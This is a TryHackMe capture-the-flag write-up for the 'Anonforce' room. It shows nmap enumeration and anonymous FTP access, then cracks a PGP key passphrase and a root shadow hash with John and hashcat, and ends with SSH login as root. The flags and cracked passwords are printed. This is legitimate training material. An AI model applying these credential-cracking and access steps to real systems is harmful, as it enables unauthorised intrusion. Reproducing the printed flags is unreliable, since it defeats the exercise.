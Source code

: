 ## Anonforce - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtanonforce)

**IP: 10.10.172.195**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, John The Ripper

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Start with Nmap scan
  ```
  nmap -sC -sV -T5 -p- 10.10.172.195 -> 2 open ports, ssh and ftp
  
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.21.127.185
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 1
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
  | drwxr-xr-x   17 0        0            3700 Apr 30 12:01 dev
  | drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
  | drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
  | drwx------    2 0        0           16384 Aug 11  2019 lost+found
  | drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
  | drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
  | drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
  | dr-xr-xr-x   92 0        0               0 Apr 30 12:01 proc
  | drwx------    3 0        0            4096 Aug 11  2019 root
  | drwxr-xr-x   18 0        0             540 Apr 30 12:01 run
  | drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
  | dr-xr-xr-x   13 0        0               0 Apr 30 12:01 sys
  |_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
  ```
  
- `notread [NSE: writeable]` looks suspicious, also log in as Anonymous with FTP.

---

## 🧍 User Privilege Escalation

- You can get user flag after logging in with FTP
  ```
  ftp 10.10.172.195
  Anonymous
  no password
  ```
  
- After getting in, look a bit and you'll find the flag `606083fd33beb1284fc51f411a706af8`, I also downloaded it to my Kali.
  ```
  cd home
  cd melodias
  get user.txt

  cat user.txt
  606083fd33beb1284fc51f411a706af8
  ```
  
- Now moving to escalation for root flag.

---

## 👑 Root Privilege Escalation

- When you check `/notread` you'll find 2 files inside: `private.asc` and `backup.pgp`, download them both. `private.asc` is PGP Private Key and `backup.pgp` is encypted file you have to decrypt. Lets work on that!
  
- Will convert `private.asc` to hash and crack it with John and then I will use cracked passphrase to decrypt `backup.pgp`
  ```
  gpg2john private.asc > keyhash.txt
  
  john --wordlist=/home/mauzware/Desktop/rockyou.txt keyhash.txt
  xbox360          (anonforce) 
  
  gpg --import private.asc     
  gpg: /home/mauzware/.gnupg/trustdb.gpg: trustdb created
  gpg: key B92CD1F280AD82C2: public key "anonforce <melodias@anonforce.nsa>" imported
  gpg: key B92CD1F280AD82C2: secret key imported
  gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
  ```
  
- Awesome, passphrase is `xbox360` use it for both import and decryption. Now let's decrypt `backup.pgp` and check the content.
  ```
  gpg --output decrypted.txt --decrypt backup.pgp 
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
        "anonforce <melodias@anonforce.nsa>"

  cat decrypted.txt
  root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
  daemon:*:17953:0:99999:7:::
  bin:*:17953:0:99999:7:::
  sys:*:17953:0:99999:7:::
  sync:*:17953:0:99999:7:::
  games:*:17953:0:99999:7:::
  man:*:17953:0:99999:7:::
  lp:*:17953:0:99999:7:::
  mail:*:17953:0:99999:7:::
  news:*:17953:0:99999:7:::
  uucp:*:17953:0:99999:7:::
  proxy:*:17953:0:99999:7:::
  www-data:*:17953:0:99999:7:::
  backup:*:17953:0:99999:7:::
  list:*:17953:0:99999:7:::
  irc:*:17953:0:99999:7:::
  gnats:*:17953:0:99999:7:::
  nobody:*:17953:0:99999:7:::
  systemd-timesync:*:17953:0:99999:7:::
  systemd-network:*:17953:0:99999:7:::
  systemd-resolve:*:17953:0:99999:7:::
  systemd-bus-proxy:*:17953:0:99999:7:::
  syslog:*:17953:0:99999:7:::
  _apt:*:17953:0:99999:7:::
  messagebus:*:18120:0:99999:7:::
  uuidd:*:18120:0:99999:7:::
  melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
  sshd:*:18120:0:99999:7:::
  ftp:*:18120:0:99999:7:::
  ```

- Before doing SSH first crack the root hash and that's it, you can log in with SSH as root.
  ```
  echo "$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0" > root.hash
  john --wordlist=/rockyou.txt root.hash
  hikari

  hashcat -m 1800 root.hash /rockyou.txt 
  $6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
  ```

- Let's get the flag, log in with SSH and `cat` the flag.
  ```
  ssh root@10.10.172.195
  hikari

  whoami
  root
  cat /root/root.txt
  f706456440c7af4187810c31c6cebdce
  ```
  
---

## 🏁 Flags

- **User Flag**: `606083fd33beb1284fc51f411a706af8`
- **Root Flag**: `f706456440c7af4187810c31c6cebdce`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Decrypting .pgp file?`

- What did I learn?
  `Just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
